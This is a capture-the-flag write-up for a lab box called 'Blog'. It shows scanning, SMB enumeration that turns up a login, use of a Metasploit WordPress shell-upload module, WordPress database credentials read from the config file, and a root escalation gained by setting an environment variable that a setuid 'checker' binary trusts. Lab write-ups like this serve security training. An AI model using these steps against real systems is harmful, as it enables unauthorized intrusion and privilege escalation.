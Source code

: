 # Blog

**CTF Domain: Blog.ctf**

## Scans

```rustscan -a Blog.ctf```


## Eumeration

SMB on port 445

`smbclient //Blog.ctf/BillySMB`

```
[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1
```

## Exploitation

Metasploit "WordPress Crop-image Shell Upload" works with kwheel credentials

user.txt gives message "TRY HARDER"

Termination PDF states removable media policy, maybe try to find a USB device attached with user flag?

Not enough time, will try again later


## Privilege Escalation

Initially tried to find user credentials, such as in the Wordpress MYSQL instance

```
define('DB_NAME', 'blog');
define('DB_USER', 'wordpressuser');
define('DB_PASSWORD', 'LittleYellowLamp90!@');
define('DB_HOST', 'localhost');

unix  2      [ ACC ]     STREAM     LISTENING     23176    /var/run/mysqld/mysqld.sock
```

It kept giving me errors though, and I doubted there was anything useful in there

Media folder contains usb folder, can't access with current privs, maybe try to pivot to bjoel?

Interesting file, "checker"

```
www-data@blog:/usr/sbin$ ./checker
./checker
Not an Admin
```

ltrace shows us that it's looking for a "admin" variable, currently set to nil

```
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
www-data@blog:/usr/sbin$ export admin=true
export admin=true
www-data@blog:/usr/sbin$ ./checker
./checker
root@blog:/usr/sbin#
```

Exporting "admin=true" gives us root!